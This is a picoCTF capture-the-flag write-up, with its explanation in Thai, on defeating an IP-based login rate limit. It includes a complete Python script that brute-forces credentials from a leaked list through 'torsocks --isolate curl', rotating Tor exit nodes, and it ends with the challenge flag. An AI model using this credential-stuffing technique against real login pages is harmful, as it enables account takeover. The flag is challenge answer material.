


# Fool the Lockout (Medium, Web Exploitation)
> Your friend is building a simple website with a login page.
> To stop brute forcing and credential stuffing, they’ve added an IP-based rate limit: exceed the attempt threshold and your IP is blocked for a while. They’re convinced this makes guessing credentials impossible.
> To test their defense, they’ve:
> - Created a dummy account with a random username–password pair from public credential lists.
> - Given you those username and password lists.
> - Shared the full source code.
>
> Can you bypass the rate limit, log in, and capture the flag?

## Overview
โจทย์ข้อนี้เขาให้เราทำการ brute force หน้า login ให้ได้โดยที่เขาจะมีไฟล์โค้ดของ server กับ credential ให้เราใช้วิเคราะห์และหาวิธีการ brute force เพื่อเอา flag ออกมาโดย:

- server ไม่ได้จับ IP จาก XFF(X-Forwarded-For) ซึ่งเป็น HTTP header ใน Layer 7 และสามารถถูก spoof ได้
- server จับ IP จาก source IP จาก network layer (Layer 3) ซึ่งทำให้เราไม่สามารถแก้ไขได้เองโดยตรง

เพื่อแก้ปัญหานี้ เราจึงใช้ Tor network ในการส่ง request โดย:
- แต่ละ request จะถูกส่งผ่าน exit node ที่แตกต่างกัน
- ทำให้ source IP (Layer 3) เปลี่ยนไปทุกครั้ง

ผลลัพธ์คือสามารถ bypass rate limit และทำ brute force ได้สำเร็จจนพบ credential ที่ถูกต้อง และนำไปใช้ดึง flag

## Vulnerability Analysis

server ใช้ `request.remote_addr` ในการดึงค่า source IP ของ client ซึ่งเป็นค่า IP ที่ได้จาก TCP connection และอ้างอิงจาก IP Header ใน network layer (Layer 3)

ดังนั้น server จะ ไม่ใช้ค่า `X-Forwarded-For` ซึ่งเป็น HTTP header ใน Layer 7 และสามารถถูก spoof ได้

จากพฤติกรรมนี้ ผู้โจมตีไม่สามารถ bypass rate limit ได้ด้วยการแก้ไข header แต่สามารถใช้ Tor network เพื่อเปลี่ยน source IP จริง (Layer 3) โดย:
- request แต่ละครั้งจะออกผ่าน exit node ที่แตกต่างกัน
- ทำให้ server มองว่าเป็นคนละ IP

ส่งผลให้สามารถทำ brute force ได้โดยไม่ติด rate limit

## Exploitation Steps
### Step 1 Credential Parsing & Brute Force Script Preparation
ผมได้ทำการเขียน script ในการ brute force username และ password โดยนำข้อมูลจากไฟล์ `creds-dump.txt` ที่โจทย์ให้มา
``` python
import subprocess
import time
import sys

def check_rate_limit(text: str) -> bool:
    lower = text.lower()
    keywords = ["ratelimit", "rate limited", "too many requests", "temporarily blocked"]
    return any(k in lower for k in keywords)

def is_login_success(text: str) -> bool:
    return ("invalid username or password" not in text.lower() 
            and not check_rate_limit(text))

with open("./creds-dump.txt", "r") as f:
    lines = f.read().splitlines()

for idx, l in enumerate(lines):
    if ";" not in l:
        continue
    user, password = l.split(";", 1)
    print(f"[{idx+1}] Trying {user}:{password}")
    
    cmd = [
        "torsocks", "--isolate",
        "curl", "-s", "-X", "POST",
        "-d", f"username={user}&password={password}",
        "http://candy-mountain.picoctf.net:55783/login"
    ]
    
    try:
        result = subprocess.run(cmd, capture_output=True, text=True, timeout=10)
        out = result.stdout + result.stderr
    except subprocess.TimeoutExpired:
        print("  Timeout, skipping")
        continue
    
    if check_rate_limit(out):
        print("  [!] Rate limit detected! Waiting 10 seconds...")
        time.sleep(10)
        continue
    
    # ตรวจสอบว่า login สำเร็จ
    if is_login_success(out):
        print(f"[+] FOUND! {user}:{password}")
        print(f"Response snippet:\n{out[:500]}")
        break
    else:
        print("  Failed (invalid user/pass)")
    
    time.sleep(0.5)
```

โค้ดของเราจะทำงานโดยขั้นตอนแรกจะแยก username กับ password ออกมาผ่าน function split เพราะว่า credential ที่โจทย์ให้มาจะมีรูปแบบ (format) ดังนี้ `rora;winner1` ทำให้เราต้องทำการแยก username และ password ออกจากกันก่อน

ต่อมาเราทำการ loop แต่ละ username และ password ออกมาและเรียกใช้คำสั่ง `torsocks --isolate curl -s -X POST -d username=<username>&password=<password> http://candy-mountain.picoctf.net:55783/login` เพื่อที่จะทำการ brute force และเข้าใช้งานระบบโดยที่
- Flag --isolate จะทำการสุ่ม SOCKS Credentials ชุดใหม่ในทุกครั้งที่รันคำสั่ง เพื่อบังคับให้ Tor Network แยก Circuit ของ Traffic นั้นออกจากรายการอื่น ส่งผลให้ข้อมูลไม่ออกจาก Exit Node ตัวเดิม และป้องกันการเชื่อมโยงข้อมูล (Identity Linkability)

### Step 2 Distributed Brute Force via Tor Network

ผมได้ทำการ run script ข้างต้นและได้ username และ password ที่ถูกต้องออกมา


### Step 3 Successful Authentication & Flag Retrieval

นำ username และ password ที่ได้ไปทำการ login และ flag ที่ได้คือ `picoCTF{f00l_7h4t_l1m1t3r_9ea694c6}`
